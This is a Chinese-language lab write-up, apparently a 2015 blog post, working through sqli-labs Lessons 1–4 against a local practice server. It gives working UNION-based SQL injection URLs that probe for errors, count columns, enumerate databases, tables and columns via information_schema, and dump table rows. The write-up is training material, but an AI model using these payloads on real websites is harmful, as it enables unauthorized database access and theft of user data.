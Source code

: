 ```yaml
---
id: 590
layout: post
title: 'sqli lab 1 - union 注入，入门'
date: 2015-12-02 20:24:00
author: virusdefender
tags: 安全
---
```


基于 [sqli labs][1]，下载后自行安装。

Lesson 1
--------

基础知识
 - mysql中可能有用的函数: database(), user(), version(), @@version_compile_os, concat(str1, str2, ...), md5(str), mid(column_name,start[,length])
 - union 查询知识
  - union 用于合并两个或多个 select 语句的结果集，并消去表中任何重复行。union 内部的 select 语句必须拥有相同数量的列，列也必须拥有相似的数据类型，每条 select 语句中的列的顺序必须相同。
  - union 默认会去掉重复记录值再合并成结果集，如果需要保留重复的记录值，请使用 union all。
  - union 结果集中的列名总是等于 union 中第一个 select 语句中的列名。

 1. `http://172.16.61.132/sqli-labs/Less-1/?id=1'`报错，错误信息是`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1`，最外层的单引号是字符串的，去掉后 sql 语句就是`'1'' LIMIT 0,1`，可以看出 id字段是字符型的。

 2. `http://172.16.61.132/sqli-labs/Less-1/?id=10000' union select 1, user(), version() --+
`得到用户和 MySQL 版本。`http://172.16.61.132/sqli-labs/Less-1/?id=10000' union select 1, database(), 3 --+`得知当前数据库名字是 security。其实还可以合并到一起的，`http://172.16.61.132/sqli-labs/Less-1/?id=10000' union select 1, 2, concat(user(),database(),version()) --+`

 3. 查看字段数量，在 url 上继续拼接 `order by` 语句。`http://172.16.61.132/sqli-labs/Less-1/?id=1' order by 3 --+`的时候正常，order by 4的时候报错了，说明有三个字段。

 4. `information_schema.schemata`这张表中有所有数据库的列表，`information.tables`有数据库中所有表的名字。通过`http://172.16.61.132/sqli-labs/Less-1/?id=10000' union select 1, count(*), 2 from information_schema.schemata --+
`得到一共有6个数据库。

 5. schemata 这张表里面数据库字段名字就是 `field_name`，因为页面一次只能返回一条数据，我们需要逐条的去查询。
`http://172.16.61.132/sqli-labs/Less-1/?id=10000' union select 1, schema_name, 3 from information_schema.schemata limit 1 offset {offset}--+`，将最后的 offset 从0遍历到5，就得到所有的数据库名字。

 6. 同理，`http://172.16.61.132/sqli-labs/Less-1/?id=10000' union select 1, count(*), 3 from information_schema.tables where table_schema='security'--+`得到 security 数据库中有四张表。`http://172.16.61.132/sqli-labs/Less-1/?id=10000' union select 1, table_name, 3 from information_schema.tables where table_schema='security' limit 1 offset {offset}--+`能获取 security 里面的所有表。

 7. `http://172.16.61.132/sqli-labs/Less-1/?id=10000' union select 1, count(*), 3 from information_schema.columns where table_name='users' and table_schema='security' --+`得到 users 表有三个字段，其实前面已经用 order by 得到了，这个地方是一种新方法。`http://172.16.61.132/sqli-labs/Less-1/?id=10000' union select 1, column_name, 3 from information_schema.columns where table_name='users' and table_schema='security' limit 1 offset {offset}--+`得到三个字段的字段名，id, username, password。只是用来演示，其实这些数据都在页面上能看到。

 8. 前面我们已知有一张表是 security.email，然后可以使用`http://172.16.61.132/sqli-labs/Less-1/?id=10000' union select 1, email_id, 3 from security.emails --+`逐行的去获取数据了，也就是拖库。


Lesson 2
--------

访问`http://172.16.61.132/sqli-labs/Less-2/?id=1'`得到错误信息`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1`，得知这次 id 是数字类型的，主要把 Lesson 1里面的那个单引号去掉就好了，其余的都不用改~

Lesson 3
--------
访问`http://172.16.61.132/sqli-labs/Less-3?id=1'`得到错误信息`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1`，猜测大致的 sql 语句是`select * from users where id = ('$id')`，还是字符型，只是加了一个括号，将 Lesson 1 的代码稍加修改就好了。

Lesson 4
--------
发现单引号不报错了，而双引号会报错，按照 Lesson 1 修改 payloads 就好了。


  [1]: https://github.com/Audi-1/sqli-labs
